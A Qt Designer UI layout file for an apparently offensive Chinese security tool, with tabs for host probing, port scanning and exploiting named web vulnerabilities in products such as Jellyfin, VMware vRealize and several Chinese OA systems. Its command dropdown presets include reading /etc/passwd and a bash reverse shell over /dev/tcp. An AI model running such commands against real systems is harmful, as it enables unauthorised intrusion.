
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>MainWindow</class>
 <widget class="QMainWindow" name="MainWindow">
  <property name="geometry">
   <rect>
    <x>0</x>
    <y>0</y>
    <width>1237</width>
    <height>691</height>
   </rect>
  </property>
  <property name="windowTitle">
   <string>综合化探测工具</string>
  </property>
  <widget class="QWidget" name="centralwidget">
   <layout class="QHBoxLayout" name="horizontalLayout_14">
    <item>
     <layout class="QGridLayout" name="gridLayout_3">
      <item row="0" column="0">
       <layout class="QVBoxLayout" name="verticalLayout">
        <item>
         <widget class="QTabWidget" name="tabWidget">
          <property name="enabled">
           <bool>true</bool>
          </property>
          <property name="currentIndex">
           <number>1</number>
          </property>
          <widget class="QWidget" name="tab_5">
           <attribute name="title">
            <string>信息收集</string>
           </attribute>
           <layout class="QGridLayout" name="gridLayout_4">
            <item row="0" column="0">
             <widget class="QTabWidget" name="tabWidget_2">
              <property name="currentIndex">
               <number>0</number>
              </property>
              <widget class="QWidget" name="tab_12">
               <attribute name="title">
                <string>存活探测</string>
               </attribute>
               <layout class="QGridLayout" name="gridLayout_7">
                <item row="0" column="0">
                 <layout class="QGridLayout" name="gridLayout_6">
                  <item row="0" column="0">
                   <layout class="QHBoxLayout" name="horizontalLayout">
                    <item>
                     <widget class="QPushButton" name="pushButton">
                      <property name="text">
                       <string>开始探测</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QPushButton" name="pushButton_3">
                      <property name="text">
                       <string>停止探测</string>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="0" column="2">
                   <layout class="QHBoxLayout" name="horizontalLayout_3">
                    <item>
                     <widget class="QLineEdit" name="lineEdit_filepath">
                      <property name="text">
                       <string/>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QPushButton" name="pushButton_4">
                      <property name="text">
                       <string>载入IP</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_5">
                      <property name="text">
                       <string>  进度：</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_currcurrent">
                      <property name="text">
                       <string> 0 </string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_6">
                      <property name="text">
                       <string> / </string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_count">
                      <property name="text">
                       <string>0 </string>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="0" column="1">
                   <layout class="QHBoxLayout" name="horizontalLayout_2">
                    <item>
                     <widget class="QLabel" name="label">
                      <property name="text">
                       <string>线程:</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLineEdit" name="lineEdit_threadcount">
                      <property name="sizePolicy">
                       <sizepolicy hsizetype="Minimum" vsizetype="Fixed">
                        <horstretch>0</horstretch>
                        <verstretch>0</verstretch>
                       </sizepolicy>
                      </property>
                      <property name="minimumSize">
                       <size>
                        <width>20</width>
                        <height>0</height>
                       </size>
                      </property>
                      <property name="maximumSize">
                       <size>
                        <width>50</width>
                        <height>16777215</height>
                       </size>
                      </property>
                      <property name="text">
                       <string>50</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_4">
                      <property name="text">
                       <string>超时（秒）：</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLineEdit" name="lineEdit_3">
                      <property name="minimumSize">
                       <size>
                        <width>20</width>
                        <height>0</height>
                       </size>
                      </property>
                      <property name="maximumSize">
                       <size>
                        <width>50</width>
                        <height>16777215</height>
                       </size>
                      </property>
                      <property name="text">
                       <string>3</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QRadioButton" name="radioButton_tcping">
                      <property name="text">
                       <string>tcping 全端口    </string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_3">
                      <property name="text">
                       <string>文件路径：</string>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="3" column="0" colspan="3">
                   <widget class="QPlainTextEdit" name="plainTextEdit_iparea">
                    <property name="plainText">
                     <string/>
                    </property>
                   </widget>
                  </item>
                 </layout>
                </item>
                <item row="1" column="0">
                 <widget class="QTableWidget" name="tableWidget_ipisalive">
                  <column>
                   <property name="text">
                    <string>IP</string>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>tcping端口存活</string>
                   </property>
                  </column>
                 </widget>
                </item>
               </layout>
               <widget class="QLabel" name="label_2">
                <property name="geometry">
                 <rect>
                  <x>10</x>
                  <y>250</y>
                  <width>72</width>
                  <height>15</height>
                 </rect>
                </property>
                <property name="text">
                 <string>扫描结果</string>
                </property>
               </widget>
              </widget>
              <widget class="QWidget" name="tab_13">
               <attribute name="title">
                <string>端口扫描</string>
               </attribute>
               <layout class="QGridLayout" name="gridLayout">
                <item row="0" column="0" colspan="2">
                 <layout class="QHBoxLayout" name="horizontalLayout_22">
                  <item>
                   <widget class="QPushButton" name="pushButton_startscan">
                    <property name="text">
                     <string>开始扫描</string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QPushButton" name="pushButton_stopscan">
                    <property name="text">
                     <string>停止扫描</string>
                    </property>
                   </widget>
                  </item>
                 </layout>
                </item>
                <item row="0" column="2">
                 <layout class="QHBoxLayout" name="horizontalLayout_24">
                  <item>
                   <widget class="QLabel" name="label_43">
                    <property name="text">
                     <string>线程:</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLineEdit" name="lineEdit_threadcount_scan">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Minimum" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                    <property name="minimumSize">
                     <size>
                      <width>30</width>
                      <height>0</height>
                     </size>
                    </property>
                    <property name="maximumSize">
                     <size>
                      <width>80</width>
                      <height>16777215</height>
                     </size>
                    </property>
                    <property name="text">
                     <string>50</string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_44">
                    <property name="text">
                     <string>超时（秒）：</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLineEdit" name="lineEdit_timeoutscan">
                    <property name="minimumSize">
                     <size>
                      <width>20</width>
                      <height>0</height>
                     </size>
                    </property>
                    <property name="maximumSize">
                     <size>
                      <width>80</width>
                      <height>16777215</height>
                     </size>
                    </property>
                    <property name="text">
                     <string>3</string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_45">
                    <property name="text">
                     <string> 文件路径：</string>
                    </property>
                   </widget>
                  </item>
                 </layout>
                </item>
                <item row="0" column="3" colspan="4">
                 <layout class="QHBoxLayout" name="horizontalLayout_23">
                  <item>
                   <widget class="QLineEdit" name="lineEdit_filepath_scan">
                    <property name="minimumSize">
                     <size>
                      <width>400</width>
                      <height>0</height>
                     </size>
                    </property>
                    <property name="maximumSize">
                     <size>
                      <width>400</width>
                      <height>16777215</height>
                     </size>
                    </property>
                    <property name="text">
                     <string/>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QPushButton" name="pushButton_24">
                    <property name="text">
                     <string>载入IP</string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_41">
                    <property name="text">
                     <string>  进度：</string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_currcurrent_scan">
                    <property name="text">
                     <string> 0 </string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_42">
                    <property name="text">
                     <string> / </string>
                    </property>
                   </widget>
                  </item>
                  <item>
                   <widget class="QLabel" name="label_count_scan">
                    <property name="text">
                     <string>0 </string>
                    </property>
                   </widget>
                  </item>
                 </layout>
                </item>
                <item row="1" column="0">
                 <widget class="QLabel" name="label_46">
                  <property name="sizePolicy">
                   <sizepolicy hsizetype="Fixed" vsizetype="Preferred">
                    <horstretch>0</horstretch>
                    <verstretch>0</verstretch>
                   </sizepolicy>
                  </property>
                  <property name="text">
                   <string>端口：</string>
                  </property>
                  <property name="alignment">
                   <set>Qt::AlignCenter</set>
                  </property>
                 </widget>
                </item>
                <item row="1" column="1" colspan="3">
                 <widget class="QLineEdit" name="lineEdit_scanport">
                  <property name="minimumSize">
                   <size>
                    <width>0</width>
                    <height>30</height>
                   </size>
                  </property>
                  <property name="maximumSize">
                   <size>
                    <width>16777215</width>
                    <height>30</height>
                   </size>
                  </property>
                  <property name="text">
                   <string>18,21-23</string>
                  </property>
                 </widget>
                </item>
                <item row="1" column="4">
                 <widget class="QRadioButton" name="radioButton_5">
                  <property name="sizePolicy">
                   <sizepolicy hsizetype="Maximum" vsizetype="Fixed">
                    <horstretch>0</horstretch>
                    <verstretch>0</verstretch>
                   </sizepolicy>
                  </property>
                  <property name="text">
                   <string>常见RCE端口</string>
                  </property>
                 </widget>
                </item>
                <item row="1" column="5">
                 <widget class="QRadioButton" name="radioButton_6">
                  <property name="sizePolicy">
                   <sizepolicy hsizetype="Maximum" vsizetype="Fixed">
                    <horstretch>0</horstretch>
                    <verstretch>0</verstretch>
                   </sizepolicy>
                  </property>
                  <property name="text">
                   <string>常见1000端口</string>
                  </property>
                 </widget>
                </item>
                <item row="1" column="6">
                 <widget class="QRadioButton" name="radioButton_7">
                  <property name="text">
                   <string>全端口</string>
                  </property>
                 </widget>
                </item>
                <item row="2" column="0" colspan="7">
                 <widget class="QPlainTextEdit" name="plainTextEdit_iparea_scan">
                  <property name="plainText">
                   <string>192.168.142.128</string>
                  </property>
                 </widget>
                </item>
                <item row="3" column="0" colspan="7">
                 <widget class="QTableWidget" name="tableWidget_ipport_scan">
                  <column>
                   <property name="text">
                    <string>IP</string>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>端口</string>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>服务</string>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>状态</string>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>其他</string>
                   </property>
                  </column>
                 </widget>
                </item>
               </layout>
              </widget>
             </widget>
            </item>
           </layout>
          </widget>
          <widget class="QWidget" name="tab_6">
           <attribute name="title">
            <string>漏洞利用</string>
           </attribute>
           <layout class="QGridLayout" name="gridLayout_16">
            <item row="0" column="0">
             <widget class="QTabWidget" name="tabWidget_3">
              <property name="currentIndex">
               <number>0</number>
              </property>
              <widget class="QWidget" name="tab_18">
               <attribute name="title">
                <string>Web漏洞</string>
               </attribute>
               <layout class="QGridLayout" name="gridLayout_5">
                <item row="0" column="0">
                 <layout class="QGridLayout" name="gridLayout_2">
                  <item row="3" column="1">
                   <widget class="Line" name="line_3">
                    <property name="orientation">
                     <enum>Qt::Horizontal</enum>
                    </property>
                   </widget>
                  </item>
                  <item row="0" column="5">
                   <widget class="QPushButton" name="import_file">
                    <property name="text">
                     <string>导入</string>
                    </property>
                   </widget>
                  </item>
                  <item row="2" column="0">
                   <widget class="QLabel" name="label_20">
                    <property name="text">
                     <string>命令:</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item row="1" column="1">
                   <widget class="QLineEdit" name="lineEdit_url">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Expanding" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                   </widget>
                  </item>
                  <item row="2" column="4">
                   <layout class="QHBoxLayout" name="horizontalLayout_10">
                    <item>
                     <widget class="QPushButton" name="pushButton_start_web">
                      <property name="sizePolicy">
                       <sizepolicy hsizetype="Minimum" vsizetype="Fixed">
                        <horstretch>0</horstretch>
                        <verstretch>0</verstretch>
                       </sizepolicy>
                      </property>
                      <property name="text">
                       <string>开始</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QPushButton" name="pushButton_stop">
                      <property name="enabled">
                       <bool>false</bool>
                      </property>
                      <property name="text">
                       <string>停止</string>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="1" column="4">
                   <widget class="QLineEdit" name="lineEdit_thread">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Fixed" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                    <property name="text">
                     <string>10</string>
                    </property>
                   </widget>
                  </item>
                  <item row="0" column="0">
                   <widget class="QLabel" name="label_21">
                    <property name="text">
                     <string>漏洞选择:</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item row="4" column="3">
                   <widget class="QLabel" name="label_22">
                    <property name="text">
                     <string>用时：</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item row="0" column="2">
                   <widget class="QPushButton" name="pushButton_check">
                    <property name="text">
                     <string>check</string>
                    </property>
                    <property name="autoDefault">
                     <bool>false</bool>
                    </property>
                   </widget>
                  </item>
                  <item row="4" column="1">
                   <layout class="QHBoxLayout" name="horizontalLayout_11">
                    <item>
                     <widget class="QPushButton" name="pushButton_exec">
                      <property name="text">
                       <string>执行命令</string>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QPushButton" name="pushButton_clear">
                      <property name="text">
                       <string>clear</string>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="2" column="1">
                   <widget class="QComboBox" name="comboBox_command">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Preferred" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                    <property name="editable">
                     <bool>true</bool>
                    </property>
                    <item>
                     <property name="text">
                      <string>whoami</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>ifconfig</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>ipconfig</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>net user</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>cat /etc/passwd</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/8080 0&gt;&amp;1</string>
                     </property>
                    </item>
                   </widget>
                  </item>
                  <item row="1" column="0">
                   <widget class="QLabel" name="label_23">
                    <property name="text">
                     <string>url:</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item row="4" column="5">
                   <layout class="QHBoxLayout" name="horizontalLayout_12">
                    <item>
                     <widget class="QLabel" name="label_current_task">
                      <property name="text">
                       <string>0</string>
                      </property>
                      <property name="alignment">
                       <set>Qt::AlignCenter</set>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_24">
                      <property name="text">
                       <string>/</string>
                      </property>
                      <property name="alignment">
                       <set>Qt::AlignCenter</set>
                      </property>
                     </widget>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_count_task">
                      <property name="text">
                       <string>0</string>
                      </property>
                      <property name="alignment">
                       <set>Qt::AlignCenter</set>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="0" column="1">
                   <widget class="QComboBox" name="comboBox_exp">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Minimum" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                    <property name="autoFillBackground">
                     <bool>false</bool>
                    </property>
                    <property name="editable">
                     <bool>false</bool>
                    </property>
                    <item>
                     <property name="text">
                      <string>全漏洞探测</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>宝塔数据库未授权访问漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>用友ERP-NC目录遍历漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>网康下一代防火墙RCE漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>Jellyfin任意文件读取漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>亿邮电子邮件系统RCE漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>锐捷上网行为管理账户密码泄露</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>D-Link DCS 信息泄露</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>VMware vRealize Manager SSRF漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>MessageSolution 邮件归档系统后台登陆</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>蓝凌OA漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>泛微OA漏洞</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>鸿信-公务车智能化管理服务平台</string>
                     </property>
                    </item>
                    <item>
                     <property name="text">
                      <string>C-Lodop云打印任意文件读取</string>
                     </property>
                    </item>
                   </widget>
                  </item>
                  <item row="1" column="3">
                   <widget class="QLabel" name="label_25">
                    <property name="text">
                     <string>线程：</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                  <item row="0" column="4">
                   <widget class="QLineEdit" name="lineEdit_filepath_web">
                    <property name="sizePolicy">
                     <sizepolicy hsizetype="Expanding" vsizetype="Fixed">
                      <horstretch>0</horstretch>
                      <verstretch>0</verstretch>
                     </sizepolicy>
                    </property>
                   </widget>
                  </item>
                  <item row="4" column="4">
                   <layout class="QHBoxLayout" name="horizontalLayout_13">
                    <item>
                     <layout class="QHBoxLayout" name="horizontalLayout_15">
                      <item>
                       <widget class="QLabel" name="label_minute">
                        <property name="text">
                         <string>0</string>
                        </property>
                        <property name="alignment">
                         <set>Qt::AlignCenter</set>
                        </property>
                       </widget>
                      </item>
                      <item>
                       <widget class="QLabel" name="label_26">
                        <property name="text">
                         <string>分钟</string>
                        </property>
                        <property name="alignment">
                         <set>Qt::AlignCenter</set>
                        </property>
                       </widget>
                      </item>
                      <item>
                       <widget class="Line" name="line_2">
                        <property name="orientation">
                         <enum>Qt::Vertical</enum>
                        </property>
                       </widget>
                      </item>
                     </layout>
                    </item>
                    <item>
                     <widget class="QLabel" name="label_27">
                      <property name="text">
                       <string>进度</string>
                      </property>
                      <property name="alignment">
                       <set>Qt::AlignCenter</set>
                      </property>
                     </widget>
                    </item>
                   </layout>
                  </item>
                  <item row="0" column="3">
                   <widget class="QLabel" name="label_28">
                    <property name="text">
                     <string>文件路径：</string>
                    </property>
                    <property name="alignment">
                     <set>Qt::AlignCenter</set>
                    </property>
                   </widget>
                  </item>
                 </layout>
                </item>
                <item row="1" column="0">
                 <widget class="QTableWidget" name="tableWidget_web">
                  <property name="verticalScrollBarPolicy">
                   <enum>Qt::ScrollBarAsNeeded</enum>
                  </property>
                  <property name="autoScrollMargin">
                   <number>16</number>
                  </property>
                  <property name="rowCount">
                   <number>0</number>
                  </property>
                  <attribute name="horizontalHeaderDefaultSectionSize">
                   <number>150</number>
                  </attribute>
                  <column>
                   <property name="text">
                    <string>url地址</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>漏洞名称</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>是否存在漏洞</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>payload</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>shiro</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                  <column>
                   <property name="text">
                    <string>扩展信息</string>
                   </property>
                   <property name="textAlignment">
                    <set>AlignCenter</set>
                   </property>
                  </column>
                 </widget>
                </item>
                <item row="2" column="0">
                 <widget class="QLabel" name="label_19">
                  <property name="text">
                   <string>命令执行结果：</string>
                  </property>
                 </widget>
                </item>
                <item row="3" column="0">
                 <widget class="QTextEdit" name="textEdit_result">
                  <property name="sizePolicy">
                   <sizepolicy hsizetype="Minimum" vsizetype="Minimum">
                    <horstretch>0</horstretch>
                    <verstretch>0</verstretch>
                   </sizepolicy>
                  </property>
                  <property name="html">
                   <string>&lt;!DOCTYPE HTML PUBLIC &quot;-//W3C//DTD HTML 4.0//EN&quot; &quot;http://www.w3.org/TR/REC-html40/strict.dtd&quot;&gt;
&lt;html&gt;&lt;head&gt;&lt;meta name=&quot;qrichtext&quot; content=&quot;1&quot; /&gt;&lt;style type=&quot;text/css&quot;&gt;
p, li { white-space: pre-wrap; }
&lt;/style&gt;&lt;/head&gt;&lt;body style=&quot; font-family:'SimSun'; font-size:9pt; font-weight:400; font-style:normal;&quot;&gt;
&lt;p style=&quot;-qt-paragraph-type:empty; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;br /&gt;&lt;/p&gt;&lt;/body&gt;&lt;/html&gt;</string>
                  </property>
                 </widget>
                </item>
               </layout>
              </widget>
             </widget>
            </item>
           </layout>
          </widget>
          <widget class="QWidget" name="tab_7">
           <property name="enabled">
            <bool>true</bool>
           </property>
           <attribute name="title">
            <string>待开发</string>
           </attribute>
          </widget>
         </widget>
        </item>
       </layout>
      </item>
     </layout>
    </item>
   </layout>
  </widget>
  <widget class="QStatusBar" name="statusbar"/>
  <widget class="QMenuBar" name="menubar">
   <property name="geometry">
    <rect>
     <x>0</x>
     <y>0</y>
     <width>1237</width>
     <height>21</height>
    </rect>
   </property>
  </widget>
 </widget>
 <resources/>
 <connections/>
</ui>
